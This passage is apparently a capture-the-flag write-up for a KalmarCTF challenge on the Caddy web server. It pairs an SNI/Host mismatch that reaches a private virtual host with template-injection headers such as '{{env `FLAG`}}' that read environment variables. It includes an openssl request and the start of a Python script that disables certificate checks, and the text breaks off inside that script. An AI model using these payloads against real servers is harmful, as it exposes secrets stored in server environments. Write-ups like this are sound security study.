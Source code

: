 Something like this:
```
openssl s_client -connect 127.0.0.1:443 -servername public.caddy.chal-kalmarc.tf -quiet  
GET /fetch/headers HTTP/1.1          
Host: private.caddy.chal-kalmarc.tf
exploit: {{env `FLAG`}}

```

correctly returns the flag.

I went down a different path, realizing that you could chain several template functions together to get the string literal (as opposed to raw string literal) from the contents of a different header with the following headers:
```
goofy_exploit: {{ .Req.Header.Flag | toString  | substr 1 5 | env}}
flag: FLAG
```
This template gets the header for the flag function, which is a string array by default, pipes it to the toString function, passes it to the substr function to get rid of the bracksets around the converted array, then finally passes it to the env function to get the flag.

This took more work to discover, but works just as well.

## Exploit

**Exploit overview**: The exploit works by first exploiting the malformed TLS certificate checking to get access to the private host, then using the template injection vulnerability to get the flag.

**Exploit mitigation considerations**:
* The TLS handshake must be done with the public server before sending the request to the private server. 
* The /flag endpoint is a red herring, we must find an alternative method to get the flag.
* The template injection vulnerability is mitigated by the server escaping double quotes in the template, so we must use a different method to get the flag.

**Input constraints**: double quotes are escaped in the template. We are limited to putting templates in the headers, as that is the only place where the results are passed to us.

**Exploit description**: 
To automatically exploit this vulnerability, I created two files, a python script and a request.

The python script is used to send the request, exploiting the TLS vulnerability, and the request is designed to exploit the template injection vulnerability.

The python script is as follows:
```python
#!/usr/bin/env python3
import socket
import ssl

# Server details
server_host = "127.0.0.1"
server_port = 443
sni_hostname = "public.caddy.chal-kalmarc.tf"

# Read the request content from file
with open("request.txt", "r") as f:
    request_content = f.read().strip() + "\r\n"

# Create SSL context, insures they python doesent get in our way for sending this malformed request (ssl cert and hostname check)
context = ssl.create_default_context()
context.check_hostname = False
context.verify_mode = ssl.CERT_NONE  # Skip certificate verification (like -k option)

# Create socket and connect
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
```
